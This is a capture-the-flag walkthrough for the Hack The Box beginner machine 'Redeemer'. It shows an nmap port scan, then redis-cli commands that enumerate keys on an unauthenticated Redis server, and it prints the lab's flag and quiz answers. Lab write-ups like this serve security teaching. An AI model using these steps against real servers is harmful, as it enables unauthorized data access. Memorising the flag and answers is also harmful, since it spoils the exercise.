 # Redeemer

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 0

## Solution

#### 1. Which TCP port is open on the machine?

```sh
$ nmap -p- 10.129.136.187
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 09:15 CET
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.99% done; ETC: 09:23 (0:07:19 remaining)
Nmap scan report for 10.129.136.187
Host is up (0.033s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 517.67 seconds
```

> 6379

#### 2. Which service is running on the port that is open on the machine?

> redis

#### 3. What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

> In-memory Database

#### 4. Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

> redis-cli

#### 5. Which flag is used with the Redis command-line utility to specify the hostname?

> -h

#### 6. Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

> info

#### 7. What is the version of the Redis server being used on the target machine?

```sh
10.129.136.187:6379> info
# Server
redis_version:5.0.7
...
```

> 5.0.7

#### 8. Which command is used to select the desired database in Redis?

> select

#### 9. How many keys are present inside the database with index 0?

```sh
10.129.136.187:6379> keys *
1) "temp"
2) "flag"
3) "numb"
4) "stor"
```

> 4

#### 10. Which command is used to obtain all the keys in a database?

> keys *

#### Submit root flag

```sh
10.129.136.187:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

## Final Flag

> 03e1d2b376c37ab3f5319922053953eb

*Created by [bu19akov](https://github.com/bu19akov)*